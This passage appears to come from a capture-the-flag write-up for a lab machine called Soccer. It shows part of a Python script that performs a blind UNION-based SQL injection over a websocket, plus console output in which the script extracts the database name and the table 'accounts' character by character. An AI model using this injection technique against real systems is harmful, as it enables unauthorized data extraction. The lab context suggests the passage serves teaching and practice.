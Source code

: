         letter_list = alpha_b_list

    while not end_of_word:
        end_of_word = True        
        found_letter=False
        for letter in letter_list:
            current_word = this_word + letter
            
            
            d = {"id": payload['id'].replace('__loop__', current_word)}

            data = str(json.dumps(d))
            ws.send(data)
            result = ws.recv()
            
            if result =="Ticket Exists" and found_letter == False:
                this_word = this_word + letter
                found_letter = True
                end_of_word = False
                print(this_word)
    return this_word

payload = {"id": f"1 UNION SELECT 1,2,3 __replace__-- -"}

inject = sys.argv[1]
if sys.argv[2].lower() =='t':
    get_from_db(payload, inject, full_list=True)
else:
    get_from_db(payload, inject)
{% endhighlight %}

First I get the name of the database I am currently working in. 
{% highlight console %}
┌──(kali box)-[~/workSpace/Boxes/Soccer]
└─$ python3 soccer_sqli.py "WHERE database() like '__loop__%'" f
s
so
soc
socc
socce
soccer
soccer_
soccer_d
soccer_db
{% endhighlight %}

Now I use my script to look for tables in soccer_db.
{% highlight console %}
┌──(kali box)-[~/workSpace/Boxes/Soccer]
└─$ python3 soccer_sqli.py "FROM information_schema.tables where table_schema = 'soccer_db' and table_name like '__loop__%'" f
a
ac
acc
acco
accou
accoun
account
accounts
┌──(kali box)-[~/workSpace/Boxes/Soccer]
└─$ python3 soccer_sqli.py "FROM information_schema.tables where table_schema = 'soccer_db' and table_name like '__loop__%' and table_name != 'accounts'" f
┌──(kali box)-[~/workSpace/Boxes/Soccer]
└─$ 

{% endhighlight %}
